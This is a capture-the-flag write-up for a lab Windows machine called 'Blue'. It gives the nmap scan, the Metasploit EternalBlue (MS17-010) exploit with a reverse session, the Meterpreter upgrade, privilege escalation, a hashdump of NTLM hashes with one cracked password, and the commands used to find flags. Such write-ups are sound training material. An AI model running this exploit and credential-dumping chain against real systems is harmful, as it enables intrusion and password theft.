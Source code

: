 # BLUE

## 10.10.228.75

## Notes

* `>` is Metasploit Console
* `>>` is Meterpreter on victim
* `C:\>` is cmd on victim

## Scan
```
nmap -sV -sC -oA nmap/blue -p 1-1001 10.10.228.75
```

## Exploit
```
> use exploit/windows/smb/ms17_010_eternalbue
> set RHOSTS 10.10.228.75
> set LHOST tun0
> exploit
```

## Post
```
> background
> post/multi/manage/shell_to_meterpreter
```


## Sessions
```
> sessions
> sessions -i 1
```

## Hashdump
```
>> getsystem
>> migrate 428
>> hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

## Cracking

```
> use post/windows/gather/hashdump
> set SESSION 1
> run
```

Use crackstation.net
`ffb43f0de35be4d9917ac0cc8ad57f8d` => `alqfna22`

## Flags

Use `type` to print file to console

```
> sessions -i 1
>> shell
C:\> cd C:\
C:\> dir
C:\> type flag1.txt

flag{access_the_machine}
```

Use `dir /s` to search for files

```
C:\> dir /s *flag2.txt

Directory of C:\Windows\System32\config
 03/17/2019  02:32 PM                34 flag2.txt
               1 File(s)             34 bytes


C:\> type C:\Windows\System32\config\flag2.txt

flag{sam_database_elevated_access}
```

```
C:\>dir /s *flag3.txt

Directory of C:\Users\Jon\Documents
03/17/2019  02:26 PM                37 flag3.txt
               1 File(s)             37 bytes


C:\>type C:\Users\Jon\Documents\flag3.txt

flag{admin_documents_can_be_valuable}
```
